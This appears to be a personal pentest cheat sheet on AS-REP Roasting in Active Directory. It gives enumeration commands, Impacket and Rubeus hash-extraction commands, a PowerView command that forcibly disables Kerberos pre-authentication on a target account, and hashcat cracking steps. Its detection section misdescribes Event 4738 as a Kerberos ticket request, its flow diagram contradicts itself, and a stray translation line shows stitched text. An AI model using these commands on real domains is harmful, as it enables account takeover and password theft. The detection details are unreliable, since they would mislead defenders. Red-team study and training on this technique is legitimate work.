

> [!abstract] AS-REP Roasting Attack
> If Kerberos Pre-Authentication is disabled for a user, an attacker can send an AS-REQ to the KDC and receive an AS-REP containing a message encrypted with the user's password hash, which can be cracked offline.
> **MITRE ATT&CK Mapping:** [T1558.004 - Steal or Forge Kerberos Tickets: AS-REP Roasting](https://attack.mitre.org/techniques/T1558/004/)

## Concept & Kerberos Flow

> [!info] What is Pre-Authentication?
> Pre-Authentication is an option in Active Directory that may be disabled for certain users. If disabled, an attacker can send an AS-REQ to the Kerberos server (KDC), and the KDC will send back an AS-REP easily without requiring actual authentication. This response contains a hash crackable offline.
> 
> **Prerequisites:** A standard domain user account, OR an account with `GenericAll` / `GenericWrite` permissions to change the setting on a target user.

![[Pasted image 20250101195014.png]]

Here is the English version of the Kerberos authentication flow, formatted with standard Obsidian/Quartz callouts and a Mermaid diagram:

***

> [!abstract] Kerberos Authentication Flow
> Kerberos is the standard protocol for secure authentication in Active Directory-based networks. It uses cryptographically encrypted tickets to prevent the transmission of plaintext passwords across the network.
> **MITRE ATT&CK Mapping:** [T1558 - Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)



### Flow Breakdown

> [!info] Step-by-Step Explanation
> 1. **AS-REQ (Pre-Authentication):** The client encrypts a timestamp using the hash of the user's password and sends it to the KDC on the Domain Controller. This proves the user's identity without sending the actual plaintext password.
> 2. **AS-REP (TGT Delivery):** If the identity is verified, the KDC generates a Ticket Granting Ticket (TGT). It encrypts and signs this TGT with the `krbtgt` account hash and sends it back to the client.
> 3. **TGS-REQ (Service Ticket Request):** When the client needs access to a specific service, it submits its TGT to the KDC and requests a Service Ticket (TGS) for that specific application.
> 4. **TGS-REP (TGS Ticket Delivery):** The KDC generates the TGS ticket, encrypts it using the target Service's NTLM password hash, and sends it to the client.
> 5. **AP-REQ (Service Access):** The client connects to the Application Server and submits the TGS ticket. Because the server possesses its own hash, it can decrypt the ticket and verify the user's identity.
> 6. **AP-REP (Mutual Authentication - Optional):** If required, the Application Server proves its own identity back to the client, ensuring the client is communicating with the real server (Mutual Authentication).
> 
> **Optional PAC:** Tickets typically include a structure called the PAC (Privilege Attribute Certificate), which contains the user's group memberships and privilege levels. The Application Server can optionally validate this PAC information with the KDC to ensure the user's access rights are legitimate and unmodified.

## Enumeration

> [!tip]+ Finding Users Without Pre-Authentication
> Find users where `DONT_REQ_PREAUTH` is set using PowerView or the Active Directory module.
> 
> **PowerView:**
> ```powershell
> Get-DomainUser -PreauthNotRequired -Verbose
> Get-NetUser -PreauthNotRequired | select samaccountname, useraccountcontrol
> Get-DomainUser | where-Object { $_.UserAccountControl -Like "*Dont_REQ_PREAUTH*" }
> ```
> 
> **AD Module:**
> ```powershell
> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
> ```

> [!example]+ Kerberos Flow Explained
> ```mermaid
> sequenceDiagram
>     participant Attacker
>     participant KDC as KDC (DC)
>     participant Service
> 
>     Note over Attacker,KDC: AS-REQ (PreAuth Disabled)
>     Attacker->>KDC: 1. Timestamp (PC time encrypted with hash) + Identity (User, service, domain)
>     KDC-->>Attacker: 2. AS-REP (Sends TGT)
>     
>     Note over Attacker,KDC: Normal TGS Flow
>     Attacker->>KDC: 3. TGS-Req (Sends TGT requesting service)
>     KDC-->>Attacker: 4. TGS-Rep (Sends TGS ticket)
>     
>     Note over Attacker,Service: Service Access
>     Attacker->>Service: 5. Data-Req (Uses TGS to access SMB, FTP, etc.)
> ```


## Attack Execution (Extracting Hashes)

> [!danger]+ Stealing the AS-REP Hash
> 
> **Linux (Impacket):**
> ```bash
> impacket-GetNPUsers dc-ip 172.20.10.77 -outputfile hash.txt -request domain.local/username
> ```
> 
> **Windows (Rubeus):**
> ```cmd
> :: Auto-detect users with pre-auth disabled in the domain
> Rubeus.exe asreproast
> 
> :: Target a specific user and output in Hashcat format
> Rubeus.exe asreproast /format:hashcat /user:cna /outfile:C:\filehash.txt
> ```
> 
> **Windows Module (ASREPRoast):**
> *Resource:* [HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)
> ```powershell
> ipmo ASREPRoast
> Invoke-ASREPRoast -Verbose          # Enumeration and extraction
> Get-ASREPHash -Username username -Verbose
> ```
## Detection (Event Logs)

> [!warning] Defensive Detection
> - **Event Code 4738 (User Account Changed):** Signifies a Kerberos authentication service ticket request. Look for parameters like Ticket Encryption Type (`0x17`), Ticket Options (`0x40800010`), and Service Name (`krbtgt`). The presence of these in event logs may indicate an ongoing AS-REP Roasting attack.
> - **Event Code 5136 (Directory Service Object Modified):** Provides information about changes made to user accounts. By analyzing these logs, defenders can identify any user accounts that have had the setting for Kerberos pre-authentication changed.

## Abusing ACLs (Changing the Object)

> [!bug+] Forcing Pre-Auth Disabled (GenericAll / GenericWrite)
> If you have `GenericAll` or `GenericWrite` permissions over a user object, you can forcefully disable their pre-authentication requirement to perform the attack.
> 
> **1. Enumerate Interesting ACLs:**
> ```powershell
> # Find users that RDPUsers group has permissions over
> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -Match "RDPUsers"}
> ```
> 
> **2. Disable Pre-Authentication (Set Object):**
> *The XOR value `4194304` sets the `DONT_REQ_PREAUTH` flag in `useraccountcontrol`.*
> ```powershell
> Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
> 
> # Verify it worked
> Get-DomainUser -PreauthNotRequired -Verbose
> ```

## Cracking the Hash

> [!success]+ Offline Password Cracking (Hashcat)
> Crack the extracted AS-REP hash using Hashcat. Mode 18200 is specifically for Kerberos 5 AS-REP (etype 23 / RC4).
> ```bash
> # Find the correct hashcat mode
> hashcat --help | grep kerberos
> 
> # Crack the hash using a wordlist and rules
> hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
> ```

